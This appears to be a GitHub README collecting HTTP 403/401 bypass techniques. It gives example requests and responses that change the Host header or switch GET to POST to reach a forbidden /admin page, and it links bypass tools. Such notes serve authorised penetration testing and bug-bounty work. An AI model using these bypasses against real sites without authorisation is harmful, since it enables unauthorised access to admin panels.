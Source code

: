 # 403bypass-collection
403bypass-collection

一) Sample Test:

1) https://sechunter.medium.com/exploiting-admin-panel-like-a-boss-fc2dd2499d31

// Original Request/Response:

GET /admin HTTP/1.1
Host: redacted.com

HTTP/1.1 403 Forbidden
Access Denied

// Modified Request/Response (Bypass):

GET /admin HTTP/1.1
Host: google.com

HTTP/1.1 200 Ok
Admin Panel Login Page(Source Code)

2) https://blog.vidocsecurity.com/blog/401-and-403-bypass-how-to-do-it-right/

HTTP Methods/Verbs fuzzing.

One of the best known is HTTP Methods/Verbs fuzzing. If you send a request with GET method and response is 401 and 403 you may want to send it again using a different method like POST, PUT , PATCH and see what happens.

// Request:

GET /admin HTTP/1.1
Host: example.com
...

Response:

HTTP/1.1 403 Forbidden
Server: Apache/2.4.41
Content-Length: 9
Connection: close

Access Denied

You can simply change method to POST

// Request:

POST /admin HTTP/1.1
Host: example.com
...

Response:

HTTP/1.1 200 OK
Server: Apache/2.4.41
Content-Length: 564
Connection: close

<!DOCTYPE html>
<html>
<head>
    <title>Admin dashboard</title>
...

二) Script :

https://github.com/devploit/nomore403 | GO script
https://github.com/topscoder/fourohme | GO script
https://github.com/Sn1r/Forbidden-Buster | python script (kinda slow)
